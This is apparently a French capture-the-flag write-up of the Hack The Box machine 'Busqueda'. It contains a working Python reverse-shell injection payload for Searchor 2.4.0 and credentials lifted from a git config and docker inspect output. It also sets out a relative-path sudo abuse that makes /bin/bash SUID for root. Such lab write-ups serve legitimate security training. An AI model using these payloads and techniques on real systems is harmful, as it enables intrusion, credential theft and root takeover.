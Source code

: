   # Busqueda

	echo "10.10.11.208 searcher.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.208 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.208 -oN nmap.txt
	feroxbuster --silent -u http://10.10.11.208
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http Apache httpd 2.4.52


Il n'y a qu'un dossier "/search" sur le site.

Dans le footer tout en bas, on remarque "Powered by Flask and Searchor 2.4.0"

Voir : https://github.com/jonnyzar/POC-Searchor-2.4.2

Payload :

	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.57',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

J'obtiens bien un shell :

	rlwrap nc -nvlp 443
	...
	python3 -c "import pty ; pty.spawn('/bin/bash')"
	cat ~/user.txt
	
### Élévation de privilèges : 

	ls -la
	cat /var/www/app/.git/config
	
On voit une ligne très intéressante : 

> url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git

	echo '10.10.11.208 gitea.searcher.htb' >> /etc/hosts
	ls /home
	cat /etc/passwd
	sudo -l 

Apparemment il n'y a que notre utilisateur sur cette machine, Cody n'a pas de compte dessus. Mais le mot de passe fonctionne : 

> User svc may run the following commands on busqueda:  
> &nbsp;&nbsp;&nbsp;&nbsp; (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

On remarque tout de suite la wildcard. Je ne peux pas accéder au code-source du script mais l'aide est assez explicite. 
</br>Voir également : https://docs.docker.com/engine/reference/commandline/inspect/

	sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect 
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea
	
On remarque un morceau très intéressant : 

> GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh

En se reconnectant à http://gitea.searcher.htb mais cette fois en tant qu’administrateur, avec le mot de passe trouvé juste au-dessus, on a accès à toute la partie des scripts. 
</br>Dans le script system-checkup.py on trouve ce morceau de code : 

> elif action == 'full-checkup':
> </br>&nbsp;&nbsp;&nbsp;&nbsp; try:
> </br>&nbsp;&nbsp;&nbsp;&nbsp; arg_list = ['./full-checkup.sh']

Le chemin est relatif. On peut donc se placer dans un dossier accessible en écriture et y mettre notre propre script full-checkup.sh contenant un reverse-shell par exemple. J'ai choisi de faire plus rapide avec le SUID sur /bin/bash vu que c'est une simple VM :  

	cd /tmp
	echo '#!/bin/bash' >> full-checkup.sh
	echo 'chmod 4777 /bin/bash' >> full-checkup.sh
	chmod a+x ./full-checkup.sh
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
	...
	/bin/bash -p
	whoami
	cat /root/root.txt


